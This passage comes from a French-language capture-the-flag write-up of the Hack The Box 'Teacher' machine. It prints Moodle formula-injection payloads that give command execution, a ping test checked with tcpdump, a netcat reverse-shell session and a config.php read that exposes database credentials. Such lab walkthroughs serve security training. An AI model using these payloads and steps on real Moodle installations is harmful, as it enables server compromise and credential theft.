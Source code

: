     {a.`$_GET[0]`}
    {a.`$_GET[0]`;{x}} 
    /*{a*/`$_GET[0]`;//{x}}
    
Ensuite vous sauvegardez la page, cliquez sur Save Change et ensuite sur Next Page c'est là que on peut effectuer notre reverse 
shell vous devez utilisé le paramètre '0' pour effectuer le reverse shell. <br />

Si nous tentons d'envoyez des paquets ICMP avec ping, vous allez voir que nous recevons bien les paquets avec tcpdump.

http://10.10.10.153/moodle/question/question.php[...SNIP...]&0=(ping%20-c%205%2010.10.13.156)

    root@Seyptoo:~/htb/writeup/Teacher# tcpdump -i tun0 icmp -n
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:18:07.400460 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5190, seq 1, length 64
    12:18:07.400514 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5190, seq 1, length 64
    12:18:08.402396 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5190, seq 2, length 64
    12:18:08.402467 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5190, seq 2, length 64
    12:18:09.404353 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5190, seq 3, length 64
    12:18:09.404411 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5190, seq 3, length 64
    12:18:10.412116 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5190, seq 4, length 64
    12:18:10.412192 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5190, seq 4, length 64
    12:18:11.412948 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5190, seq 5, length 64
    12:18:11.412994 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5190, seq 5, length 64
    12:18:11.468016 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5205, seq 1, length 64
    12:18:11.468069 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5205, seq 1, length 64
    12:18:12.469553 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5205, seq 2, length 64
    12:18:12.469607 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5205, seq 2, length 64
    12:18:13.475630 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5205, seq 3, length 64
    12:18:13.475683 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5205, seq 3, length 64
    12:18:14.471911 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5205, seq 4, length 64
    12:18:14.471967 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5205, seq 4, length 64
    12:18:15.475007 IP 10.10.10.153 > 10.10.13.156: ICMP echo request, id 5205, seq 5, length 64
    12:18:15.475061 IP 10.10.13.156 > 10.10.10.153: ICMP echo reply, id 5205, seq 5, length 64

Shell 
----

Nous avons un shell sans problème, vous devez utilisé nc et non la commande avec rm, j'ai perdu beaucoup de temps avec ça :rire:

    root@Seyptoo:~/htb/writeup/Teacher# nc -lvnp 1234
    Listening on [0.0.0.0] (family 0, port 1234)
    Connection from [10.10.10.153] port 1234 [tcp/*] accepted (family 2, sport 46086)
    python -c "import pty;pty.spawn('/bin/bash')" 
    www-data@teacher:/var/www/html/moodle/question$ cd /var/www/html/moodle
    www-data@teacher:/var/www/html/moodle$ cat config.php
    $CFG->dbtype    = 'mariadb';
    $CFG->dblibrary = 'native';
    $CFG->dbhost    = 'localhost';
    $CFG->dbname    = 'moodle';
    $CFG->dbuser    = 'root';
    $CFG->dbpass    = 'Welkom1!';
    $CFG->prefix    = 'mdl_';
   